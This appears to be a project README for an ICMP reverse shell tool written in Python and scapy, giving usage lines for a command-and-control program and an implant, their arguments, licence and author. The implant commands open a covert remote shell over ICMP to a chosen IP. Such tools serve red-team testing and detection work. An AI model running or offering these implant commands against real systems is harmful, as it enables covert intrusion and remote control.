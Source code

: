 # ICMP Reverse Shell
ICMP reverse shell written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10.

More info: https://cryptsus.com/blog/icmp-reverse-shell.html

Python version (both Windows and Linux):
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```

Widows binary version:
```bash
./icmp-cnc.exe -d DESTINATION_IP (Command and Control)
./icmpdoor.exe -d DESTINATION_IP (Implant)
```

Arguments:
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
